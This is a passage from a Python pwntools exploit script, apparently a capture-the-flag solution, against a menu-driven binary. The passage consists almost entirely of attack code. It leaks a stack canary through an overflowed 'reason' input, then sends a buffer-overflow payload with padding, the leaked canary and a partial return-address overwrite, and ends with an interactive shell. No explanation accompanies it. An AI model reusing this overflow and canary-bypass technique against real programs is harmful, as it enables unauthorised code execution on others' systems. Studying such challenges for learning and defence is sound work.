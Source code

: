 ```python

print k#得到9999的加密结果

p.close()

q.sendlineafter('3.Exit\n','2')
q.sendafter('Enter your secret code please:\n',k)

def leak(off):
	q.sendlineafter('4.hit on the head of the developer\n------------------------\n','3')
	q.sendlineafter('Confirm? y to confirm\n','y')
	q.sendafter('tell me why do want to buy my software:\n','a'*off)

	q.recvuntil('a'*off)
	leak = u64(q.recvuntil('But I think your reason is not good.\n',drop = True).ljust(8,'\x00'))
	return leak
	
q.sendlineafter('4.hit on the head of the developer\n------------------------\n','3')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','n')
q.sendlineafter('Confirm? y to confirm\n','y')
q.sendlineafter('tell me why do want to buy my software:\n','a'*0x8)
q.recvuntil('a'*0x8)
leak = u64(q.recv(8))

canary = leak - 0xa
print hex(canary)

q.sendlineafter('4.hit on the head of the developer\n------------------------\n','3')
q.sendlineafter('Confirm? y to confirm\n','y')
q.sendafter('tell me why do want to buy my software:\n','a'*0xc8+p64(canary)+'a'*8+'\x2c\x52')

q.interactive()
```